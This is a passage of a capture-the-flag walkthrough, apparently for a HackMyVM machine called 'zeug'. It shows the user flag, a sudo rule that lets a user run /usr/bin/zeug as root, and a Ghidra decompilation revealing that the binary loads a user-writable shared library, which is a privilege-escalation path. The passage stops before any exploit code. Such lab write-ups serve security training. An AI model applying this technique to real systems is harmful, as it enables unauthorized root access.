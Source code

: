 `cat ./user.txt`:
```
HMYVM{exia_1XZ2GUy6gwSRwXwFUKEkZC6cT}
```

`sudo -l`:
```
Matching Defaults entries for exia on zeug:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User exia may run the following commands on zeug:
    (root) NOPASSWD: /usr/bin/zeug ←
```

`ls -l /usr/bin/zeug`:
```
-rwxr-xr-x 1 root root 16048 Jan  6  2024 /usr/bin/zeug ←
```

`/usr/bin/zeug`:
```
Error opening file
```

`cp /usr/bin/zeug ./`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`download /home/exia/zeug /home/kali/zeug`:
```
/home/exia/zeug ━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 16.0/16.0 KB • ? • 0:00:00
[15:34:52] downloaded 16.05KiB in 0.07 seconds
```

`cd /home/kali`

`file ./zeug`:
```
./zeug: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=98720581ef7b2c988cb9f8a243a7dfb507529b15, for GNU/Linux 3.2.0, not stripped
```

`ghidra` > `Import File: ./zeug`:
```c
bool main(void)

{
  long lVar1;
  
  lVar1 = dlopen("/home/exia/exia.so",2);
  if (lVar1 == 0) {
    fwrite("Error opening file\n",1,0x13,stderr);
  }
  return lVar1 == 0;
}
```
